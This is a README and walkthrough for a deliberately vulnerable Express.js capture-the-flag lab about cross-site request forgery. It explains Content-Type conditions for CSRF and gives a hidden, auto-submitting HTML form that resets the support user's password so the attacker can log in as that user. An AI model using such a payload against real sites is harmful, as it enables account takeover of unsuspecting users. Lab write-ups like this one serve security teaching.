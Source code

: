 # CSRF CTF

**Installation**
```
git clone https://github.com/JoshMorrison99/Express-CSRF; cd Express-CSRF; docker-compose up --build
```


## Findings
Handling reqests in Express.js it is quite common to use JSON like so:
```js
app.post('/api/reset_password', async (req, res) => {
    console.log(req.body.password)
})
```

Sending the following request will reset the password:
```
POST /api/reset_password HTTP/1.1
Host: localhost:5000
Content-Type: application/json
Cookie: SESS_COOKIE=s%3AqpqwMG8nJEa6lR7sUkdS%2B2%2B%2FLnfYkCCA

{"password":"123"}
```

Notice in the request above that the Content-Type is `application/json`. CSRF is not possible in this Content-Type. Before attempting CSRF, check if any of the following Content-Types are accepted:
```
Content-Type: text/plain  
Content-Type: application/x-www-form-urlencoded  
Content-Type: application/xml
```

If an express application only allows JSON, then the middleware will look like so:
```js
app.use(express.json());
```

If the express application accepts `application/json` and `application/x-www-form-urlencoded `
```js
app.use(express.json());
app.use(express.urlencoded({ extended: true }));
```

## Writeup
**Step 1**<br/>
When you start the application you are greeted with a login screen. You are given the login of `guest:guest`.
![image](https://user-images.githubusercontent.com/25315255/220460691-37fb0674-685d-447d-b63f-fd64e9e8cb00.png)


**Step 2**<br/>
After logging into the application there is a navigation bar with some routes to investigate.
![image](https://user-images.githubusercontent.com/25315255/220460837-1073221d-d057-4458-9aaf-db1d7bd64565.png)

**Step 3**<br/>
Starting with `Profile` you can reset your password.
![image](https://user-images.githubusercontent.com/25315255/220461031-4e96af9a-059e-4530-a5b6-65ba65a84ada.png)

**Step 4**<br/>
Moving over to `Support` you can give a URL and the support staff will check out the URL.
![image](https://user-images.githubusercontent.com/25315255/220461194-812e8c7e-aa57-4093-96a7-bc4578d3603a.png)

**Step 5**<br/>
Some things to try on the support page would be SSRF. This CTF however is not vulnerable to SSRF. The intended solution of to perform a CSRF attack to reset the support user's password and login as the support user. We can use the following CSRF PoC to reset the support user's password:
```
<html>
    <body>
        <form action="https://{IP}/api/reset_password" method="POST">
            <input type="hidden" name="password" value="12345" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Step 6**<br/>
After resetting the support user's password, we can login.
![image](https://user-images.githubusercontent.com/25315255/220461899-c0bde596-6dc7-4964-abb7-2189171e8a49.png)



